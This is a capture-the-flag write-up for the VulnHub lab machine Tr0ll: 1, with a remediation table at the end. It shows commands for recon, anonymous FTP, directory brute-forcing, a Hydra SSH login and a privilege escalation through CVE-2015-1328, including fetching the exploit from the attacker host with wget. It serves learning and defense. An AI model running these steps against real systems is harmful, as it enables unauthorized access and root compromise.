# Tr0ll: 1 — VulnHub Writeup

**Platform:** VulnHub | **Difficulty:** Beginner | **Target IP:** 192.168.32.130 | **Attacker IP:** 192.168.32.128

## Machine info



## Summary

**Tr0ll: 1** is a Beginner VulnHub machine built around a long chain of misdirection: nearly every path leads to a troll image before the real one leads anywhere. Anonymous FTP exposed a `.pcap` file whose captured traffic hinted at a hidden web directory. That directory hosted a binary whose strings revealed a numeric path, which in turn hosted two folders — one listing usernames, the other holding what looked like the password but was actually a decoy; the real password turned out to be the literal filename `Pass.txt`. Those credentials granted SSH access as a low-privilege user on a kernel vulnerable to a known local privilege escalation, leading to root.

**Attack chain:** Nmap recon → Anonymous FTP (pcap hint) → Web enumeration (troll pages → hidden directory) → Binary analysis (strings) → Fake credential folders → SSH brute force (Hydra) → Kernel exploit (CVE-2015-1328) → Root

## 1. Reconnaissance





```
nmap -p- -sS -sV -sC -vvv -oN scan.txt 192.168.32.130
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 3.0.2
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxrwxrwx    1 1000     0            8068 Aug 10  2014 lol.pcap [NSE: writeable]
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.7 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/secret
|_http-title: Site doesn't have a title (text/html).
```

Anonymous FTP is allowed with a world-writable capture file.

## 2. FTP Enumeration

```
ftp 192.168.32.130
Name (192.168.32.130:Oryx): anonymous
230 Login successful.
ftp> ls
-rwxrwxrwx    1 1000     0            8068 Aug 10  2014 lol.pcap
ftp> get lol.pcap
```

Opening the capture in Wireshark and following the FTP data stream revealed a taunting message pointing at a hidden directory:



```
Well, well, well, aren't you just a clever little devil, you almost found the sup3rs3cr3tdirlol :-P
Sucks, you were so close... gotta TRY HARDER!
```

## 3. Web Enumeration

The `/secret` path was found with gobuster. Both it and the web root served troll images with no real content:





```
gobuster dir -u http://192.168.32.130/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
secret               (Status: 301) [Size: 316] [--> http://192.168.32.130/secret/]
```

The real path came from the pcap hint, `/sup3rs3cr3tdirlol/`, which hosted a binary:



## 4. Binary Analysis

```
file roflmao
roflmao: ELF 32-bit LSB executable, Intel i386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, not stripped

strings roflmao
Find address 0x0856BF to proceed
```

The binary's only meaningful string was a hint toward another path.

## 5. Locating Credentials

`/0x0856BF/` contained two folders, continuing the troll theme:



`good_luck/which_one_lol.txt` listed candidate usernames:



`this_folder_contains_the_password/Pass.txt` displayed what looked like a congratulatory message rather than a real password:



## 6. SSH Login

Rather than the file's content, the actual password turned out to be the literal filename itself — another troll twist. Hydra confirmed it against the username list:

```
hydra -L users -p Pass.txt ssh://192.168.32.130
[22][ssh] host: 192.168.32.130   login: overflow   password: Pass.txt
```



```
sudo -l
Sorry, user overflow may not run sudo on troll.

uname -a
Linux troll 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:12 UTC 2014 i686 athlon i686 GNU/Linux
```

The kernel version (3.13.0, Ubuntu 14.04) is vulnerable to CVE-2015-1328, a local privilege escalation in overlayfs.

## 7. Privilege Escalation

The public exploit for CVE-2015-1328 was served from the attacker machine and pulled onto the target:

```
python -m http.server
overflow@troll:/tmp$ wget http://192.168.32.128:8000/37292.c
```

Compiling and running the exploit spawned a root shell:



Root access confirmed:



The root flag:



## Root Cause & Remediation

| Issue | Fix |
|---|---|
| Anonymous FTP enabled with a world-writable capture file leaking a path to hidden content | Disable anonymous FTP access; never leave service files world-writable |
| A world-readable binary disclosed a further path through its embedded strings | Avoid embedding sensitive hints or paths in binaries served to unauthenticated users |
| SSH credential was a predictable value (the literal filename `Pass.txt`) rather than a real generated password | Enforce a real password policy; never use a filename or other guessable string as a credential |
| Outdated kernel (Ubuntu 14.04, 3.13.0) vulnerable to a known local privilege escalation (CVE-2015-1328, overlayfs) | Keep the kernel patched and up to date; monitor for CVEs affecting the running kernel version |
